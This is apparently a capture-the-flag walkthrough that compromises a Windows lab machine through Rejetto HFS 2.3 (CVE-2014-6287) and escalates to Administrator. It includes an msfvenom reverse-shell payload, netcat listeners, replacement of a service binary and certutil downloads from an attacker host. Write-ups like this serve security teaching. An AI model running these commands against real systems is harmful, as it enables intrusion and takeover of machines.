## Introduction
In this room, we will be enumerating a Windows machine, gain access with Metasploit, and escalate privileges to Administrator.

Note: The target machine does not respond to ping (ICMP).

## Recon/OSINT
Target IP: 10.10.173.90 (`$IP`)

The target machine is running a Windows OS.

There is a simple webpage available on port 80.

## Enumeration
Let's start by enumerating the machine using an Nmap scan.

```console
sudo nmap -sC -SV -oN nmap_initial.output $IP 
```


There is a *Rejetto Http File Server version 2.3* running on port 8080.



Let's exploit this service using Metasploit.

## Exploitation
Start Metasploit console using the command `msfconsole` and search for exploits related to the file server in question.



Let's look at the information associated with the exploit.



Let's set the LHOST, RHOSTS, and RPORT to their respective values for the attack machine.



With the appropriate options set, we can run the exploit and get our initial foothold on the target machine.



The user flag can be found at `C:\Users\bill\Desktop\user.txt`.



## Privilege Escalation
Now that we have a foothold on the target machine, we can start looking at ways to privilege escalate. Let's begin by further enumerating the machine.

To enumerate the target machine, we will be using a Powershell script called *PowerUP*. The purpose of this script is to enumerate a machine to find common Windows privilege escalation vectors that rely on misconfigurations.

Download the script and upload it to the target machine using the open Meterpreter session.

```console
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```


To execute the script, we will first need to type `load powershell` followed by `powershell_shell` into the open Meterpreter session.



We can now run the *PowerUp.ps1* script.



Note that the *CanRestart* option is set to *True* on the *AdvancedSystemCareService9* service which is vulnerable to an *unquoted service path* vulnerability. The *CanRestart* being set to *True* allows us to restart the service on the system. Furthermore the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one and then restart the service which will run our infected program.

Let's use *msfvenom* to generate a reverse shell as a Windows executable.

```console
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.17.49 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```


We can now upload our binary to replace the legitimate one at `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`



Before we can replace the legitimate file, we need to stop the service which is running. We can use the regular *cmd* shell for this by using the `shell` command.

```console
sc stop AdvancedSystemCareService9
```


With the service stopped, we can now replace the legitimate file with our malicious file.

```console
copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```


With the legitimate file replaced with our malicious one, we can now restart the *AdvancedSystemCareService9* to get our privilege escalation. Before we do this though, we need to setup a listener.

```console
nc -lvnp 4443
```
```console
sc start AdvancedSystemCareService9
```




The flag for the *Administrator* user can be found at `c:\Users\Administrator\Desktop\root.txt`.



## Access and Escalation Without Metasploit
In the previous sections, we exploited the machine with the aid of Metasploit. Let's look at how we can gain access to the machine without the use of Metasploit.

Remember that our Nmap scan showed that the *Rejetto Http File Server version 2.3* running on port 8080. Looking at [Exploit-DB](https://www.exploit-db.com/), we find several exploits for the specified version of the file server. The one that interest us is the [remote command execution exploit (CVE-2014-6287)](https://www.exploit-db.com/exploits/39161). 

We will also need a *Netcat* static binary for the Windows OS (download from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)). Remeber to rename the file to `nc.exe` as this is the name the exploit is looking for.

Before we can run the exploit, we need to setup a web server to serve the *Netcat* binary on port 80 when the exploit executes.

```console
python3 -m http.server 80
```
Next we need to setup a *Netcat* listener to receive our call back.

```console
nc -lvnp 4444
```
Finally we can download the exploit from Exploit-DB. The exploit needs to be modified with our IP address and the *Netcat* port we are listening on.



With the options set, we can now run the exploit.

```console
python2 39161.py 10.10.173.90 8080
```
Note that we will need to run the exploit twice to get our shell. The reason is because the first time the exploit is executed, it pulls the *Netcat* binary from our server to the target machine. The second time the exploit is executed, we get a callback.



With our initial access established, we can do further enumeration using [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). We start by copying the script to our machine.

```console
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230529-e7da582f/winPEASx86.exe
```

We can now download the file on the target machine from our running web server using the *certutil* utility.

```console
certutil.exe -urlcache -f http://10.13.17.49/winPEASx86.exe winpeas.exe
```


Run *WinPEAS* by simply calling the executable. Execution can take a while as the utility goes through several enumeration checks.

Looking at the results, we see that the *WinPEAS* utility found the same unquoted services as *PowerUP* did earlier. At this point, the method for privilege escalation is identical to before. Essentially the goal is to generate a payload using *msfvenom* and replace the legitimate binary with our malicious version. Once the *AdvancedSystemCareService9* service is restarted, we get our root shell.